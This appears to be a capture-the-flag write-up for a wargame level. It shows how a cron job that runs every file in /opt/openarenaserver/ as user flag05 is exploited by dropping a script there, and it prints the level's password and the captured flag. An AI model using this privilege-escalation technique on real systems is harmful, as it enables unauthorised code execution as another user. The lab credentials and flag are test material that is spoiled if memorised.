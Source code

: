username: level05
password: ne2searoevaevoem4ov4ar8ap
---

Found a file containing a crontab, it executes `/usr/sbin/openarenaserver` every two minutes as flag05.

```sh
$ find / -name level05 2>/dev/null 
/var/mail/level05
/rofs/var/mail/level05
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

`/usr/sbin/openarenaserver` executes every file located in `/opt/openarenaserver/`

```
$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

To get the flag we ran the following commands

```
echo 'getflag > /tmp/flag' > /opt/openarenaserver/g
chmod +x /opt/openarenaserver/g
sleep 120 && cat /tmp/flag
```

The flag is: viuaaale9huek52boumoomioc
